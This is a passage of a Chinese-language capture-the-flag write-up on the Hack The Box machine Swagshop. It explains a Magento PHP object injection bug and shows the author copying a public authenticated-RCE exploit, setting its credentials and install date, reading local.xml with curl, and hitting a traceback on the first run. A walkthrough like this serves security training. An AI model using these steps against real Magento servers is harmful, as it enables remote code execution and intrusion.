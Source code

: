     eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                                                                                            | exploits/php/webapps/38651.txt
    ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    

在浏览了这些之后，经过身份验证的RCE python脚本看起来最有趣。

有关此错误的背景信息，这是一个PHP对象注入漏洞，[由在此处](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/)找到它的一位研究人员详细介绍。PHP 对象注入是一类属于反序列化漏洞的错误。基本上，服务器将php对象传递到页面中，当浏览器提交回服务器时，它会将该对象作为参数发送。为了防止恶意用户弄乱对象，Magento使用键控哈希来确保完整性。但是，哈希的键是安装数据，可以从 中检索到这些数据。这意味着一旦我有了这个日期，我就可以伪造签名对象并注入我自己的代码，从而导致RCE。`/app/etc/local.xml`

我将从以下位置制作 POC 的副本：`searchsploit`

    root@kali# searchsploit -m exploits/php/webapps/37811.py
      Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
          URL: https://www.exploit-db.com/exploits/37811
         Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
    File Type: Python script, ASCII text executable, with CRLF line terminators
    
    Copied to: /root/hackthebox/swagstore-10.10.10.140/37811.py
    

我将重命名为 ，然后打开它并查看。在配置部分，我必须更新3个字段：`magento_rce.py`

    # Config.
    username = 'ypwq'
    password = '123'
    php_function = 'system'  # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml
    

我按照建议从页面中获得了日期：

    root@kali# curl -s 10.10.10.140/app/etc/local.xml | grep date
                <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>
    

当我运行它时，我收到一个错误：

    root@kali# python magento_rce.py http://10.10.10.140 "uname -a"
    Traceback (most recent call last):
      File "magento_rce.py", line 56, in <module>
        br['login[password]'] = password
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 2780, in __setitem__
        control = self.find_control(name)
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3101, in find_control
        return self._find_control(name, type, kind, id, label, predicate, nr)
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3185, in _find_control
        raise ControlNotFoundError("no control matching "+description)
    mechanize._form.ControlNotFoundError: no control matching name 'login[password]'
    
